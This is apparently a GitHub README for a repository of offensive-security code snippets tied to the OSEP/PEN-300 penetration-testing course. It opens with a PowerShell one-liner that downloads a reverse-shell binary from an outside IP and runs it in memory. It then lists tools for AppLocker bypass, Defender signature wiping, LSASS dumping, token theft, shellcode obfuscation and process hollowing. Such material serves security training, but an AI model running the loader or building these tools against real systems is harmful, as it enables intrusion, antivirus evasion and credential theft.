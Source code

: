 # OSEP Code Snippets
Code examples are provided as-is, without any form of warranty. Based on Offensive Security's [PEN-300](https://www.offensive-security.com/pen300-osep/) course.

Classes and methods are public, so most binaries should allow for reflective loading as below.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

### Contents
|Snippet Name|Description|
|--|--|
| AppLocker Bypass PowerShell Runspace (C#) | Base binary for an applocker bypass using a combination of `CertUtil`, `BitsAdmin`, and `InstallUtil`. See `README.md` for details.|
| Fileless Lateral Movement (C#) | Wipes Windows Defender signatures on the remote host and uses a PSExec-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`. |
|Linux Shellcode Encoder (Python) | A utility script to encode C# payloads from Linux, automatically feeding from 'msfvenom'. Supports XOR and ROT encoding with an arbitrary key, and prints the decoding function. Can be used to replace the C# ROT/XOR encoder scripts.|
|Linux Shellcode Loaders (C) |Various C-based shellcode loaders, including base binaries for library hijacking.|
|MiniDump (C# & PS1) |A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as native PowerShell script.|
|MSSQL (C#)|An example binary that includes a variety of discussed MSSQL interactions. Change the code to include only what you need.|
|PrintSpoofer.NET (C#)|Steals the token of the incoming authentication forced with the [PrintSpooler exploit](https://github.com/leechristensen/SpoolSample), and use that token to run a given binary. Modified to not require an interactive logon session. Takes arguments for the pipe name and binary to run.|
|ROT Shellcode Encoder (C#)|A simple binary to apply state-of-the-art ROT encoding to obfuscate the shellcode. It takes an argument for the number of rotations.|
|Sections Shellcode Process Injector (C#)|Injects and runs shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfsection` and `NtClose` instead of the "standard" method.|
|Shellcode Process Hollowing (C#)|Hollows a `svchost` process and runs the shellcode from there. Scores 0/68 on VirusTotal at the time of writing.|
|Shellcode Process Injector (C# & PS1) | Simple shellcode runner that applies process injection. Accepts an argument for the process to inject into. If no argument is given, it attempts to pick a suitable process based on privilege level. Also provided as native PowerShell script (though it is a bit simpler).|
|Simple Shellcode Runner (C# & PS1 & VBA)|The simplest of shellcode runners. Also provided as native PowerShell and VBA scripts.|
|XOR Shellcode Encoder (C#)|A simple binary to apply state-of-the-art XOR encoding to obfuscate the shellcode.|

